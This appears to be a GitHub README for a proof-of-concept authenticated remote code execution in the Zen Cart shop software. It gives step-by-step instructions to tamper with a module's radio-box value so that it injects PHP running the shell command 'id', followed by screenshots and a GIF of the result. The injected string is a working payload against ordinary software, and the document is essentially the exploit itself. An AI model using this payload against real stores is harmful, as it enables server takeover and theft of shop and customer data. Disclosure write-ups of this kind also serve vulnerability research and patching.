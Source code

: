 # zencart_auth_rce_poc


1-) login as admin

2-) get any modules edit page

3-) inspect element any true radiobox

4-) change true to true','MODULE_ORDER_TOTAL_TOTAL_STATUS'); echo \`id\`; //

5-) click update

6-) to trig command go again edit page


POC


exploiting
![send command](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/command.png)
refresh page
![refresh page](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/bir.png)
zoom

![zoom](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/iki.png)


GIF

![kanit](https://user-images.githubusercontent.com/29048982/105517880-a5471800-5ce8-11eb-8a27-84e1ef0b2c7e.gif)
